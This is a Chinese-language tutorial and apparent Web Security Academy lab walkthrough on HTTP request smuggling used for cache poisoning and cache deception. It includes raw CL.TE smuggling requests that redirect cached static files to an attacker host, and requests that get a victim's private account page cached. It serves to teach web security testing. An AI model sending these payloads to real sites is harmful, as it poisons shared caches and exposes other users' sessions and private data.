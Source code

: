# 请求走私触发缓存投毒和缓存欺骗

### Web 缓存机制

当用户发起 HTTP 请求，前端服务器将用户发起的请求包中的一些信息作为缓存键（HTTP 方法、URL 路径、HOST 头等），同时缓存下响应包。当用户再次发起请求时，如果请求包中的信息一一命中缓存中的缓存键，前端服务器将直接从缓存中取出响应包返回响应。 如下案例：

1. 发送 attack 包。

```
# 发送 attack 包。
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0
 
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

2. 发送静态资源的 normal 包，请求资源。

```
# 发送 normal 包，请求资源，并标记 "GET" "/static/include.js" "HOST 头信息" 作为缓存键。
# normal 包被拼接前：
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

```
# 后端处理时，残留数据拼接 normal 包。
# normal 包被拼接后：
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

3. 多次发送 attack 包 + 多次发送 normal 包导致缓存中毒。

```
# 访问静态资源。
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

# 服务端响应重定向包，前端服务器缓存此响应到对应的缓存键（"GET" "/static/include.js" "HOST 头信息"）
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

### 缓存投毒实验

1. 发现 host 头存在开放重定向。
1. 进行缓存投毒。

```
POST / HTTP/1.1
Host: 0ad900150432f8e980990dd300eb00bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a3400ad04a7f88680c70caf01fb00b6.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

![image-20250411161758258](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411161758258.png)

3. 此时 attack 包数据已经残留在缓冲区了，我们发送 "GET" "/static/ tracking.js" 这种静态文件请求，而响应包却是重定向包。
4. 重复发送 attack 包 + 访问静态文件这一过程， 使得缓存中毒。

5. 创建 post 页面。

![image-20250411161840677](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411161840677.png)

3. 投毒成功，访问静态文件的请求都将被前端服务器自动返回重定向包。

![image-20250411163700282](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411163700282.png)

### 缓存欺骗

缓存投毒是在缓存中将正常响应替换成恶意响应（如：重定向），缓存欺骗是在缓存中将正常响应替换为用户访问敏感数据的响应。如下案例：

1. 发送 attack 包。

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

2. 受害者发送 normal 包。

```
# normal 包被拼接前：
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

```
# normal 包被拼接后
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

3. 攻击者多次发送 attack 包，用户多次发送静态文件请求，导致缓存欺骗。

```
# 访问静态资源。
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

# 前端服务器直接返回敏感信息。
HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

### 缓存欺骗实验

1. 发送 attack 包。

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```

![image-20250411173738902](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411173738902.png)

2. 当你发送完 attack 包后，其他用户会发送（访问静态资源 tracking.js） normal 包拼接残留数据，导致请求走私。
2. 多次重复发送 attack 包 + 用户多次访问静态资源 tracking.js，导致缓存欺骗。

![image-20250411174215284](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411174215284.png)

注：缓存投毒场景是因为 normal 包是攻击者发出的，所以缓存键是由攻击者控制的，所以攻击者肯定知道 normal 包的静态资源路径。

然而缓存欺骗场景下，normal 包是用户发出的，所以缓存键是由用户控制的，攻击者不知道 normal 包的静态资源路径。

即使恰好用户多次发送静态资源的 normal 包导致了缓存欺骗漏洞的触发，攻击者也需要从大量的静态资源的 url 中寻找受缓存欺骗的 url。 

